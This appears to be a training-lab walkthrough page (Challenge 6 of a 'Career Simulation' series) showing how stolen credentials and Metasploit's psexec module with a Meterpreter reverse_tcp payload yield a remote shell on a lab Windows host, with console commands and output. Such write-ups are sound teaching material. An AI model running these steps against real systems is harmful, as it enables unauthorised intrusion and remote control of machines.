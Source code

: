 # **Challenge 6: Metasploit**
!!! note ""
## **Procedure:**

Now that we have a username and password, we need to use them to gain access to one of the Windows targets. Connecting using "legitimate" means like Remote Desktop Protocol (RDP) could be possible, but a Meterpreter shell can give us more user-friendly options to achieve our goals. 

- Start up the Metasploit framework on Kali, and load the windows/smb/psexec exploit module. 
Note: This module is a common exploit for gaining access to Windows machines with stolen credentials. 
- Configure the module's options to set the username and password you found previously. You will not need to specify a domain. 
Set the `RHOSTS` target to one of the Windows IPs you found with Nmap earlier. 
Note: These credentials will only work on one of the two Windows machines. If the exploit fails, set the other IP address as the target and try again.
- Set the payload to `windows/x64/meterpreter/reverse_tcp` and confirm its options automatically configure properly.
- Run the exploit. If everything works, you will be dropped into a Meterpreter shell on the target system. If not, test it against the other Windows target. If neither exploit works, double-check your options (check for typos in IP addresses, usernames, passwords, etc.) 


## **Solution:**

### Start up the Metasploit framework on Kali, and load the `windows/smb/psexec` exploit module.

![alt text](images/Pasted%20image%2020240508001358.png)

### Showing the options in the `windows/smb/psexec` exploit module.

![alt text](images/Pasted%20image%2020240508001604.png)



### Set the RHOSTS and running the `psexec` module (Windows VM 172.31.43.103)

```bash linenums="1" hl_lines="2 15"
msf6 exploit(windows/smb/psexec) > set RHOST 172.31.43.103
RHOST => 172.31.43.103
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 172.31.39.126:4444 
[*] 172.31.43.103:445 - Connecting to the server...
[*] 172.31.43.103:445 - Authenticating to 172.31.43.103:445 as user 'Administrator'...
[*] 172.31.43.103:445 - Selecting PowerShell target
[*] 172.31.43.103:445 - Executing the payload...
[+] 172.31.43.103:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 172.31.43.103
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
[*] Meterpreter session 1 opened (172.31.39.126:4444 -> 172.31.43.103:49962) at 2024-05-08 04:20:56 +0000

meterpreter > sysinfo
Computer        : EC2AMAZ-L3OOUG8
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > 
```

## The meterpreter shell was sucesfully deployed

<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://hcoco1-1.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-3/challenge_5/" class="md-button md-button--primary">Previous: Challenge 5</a>
<a href="/Career-Simulation-3/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-3/challenge_7/" class="md-button md-button--primary">Next: Challenge 7</a>
</div>

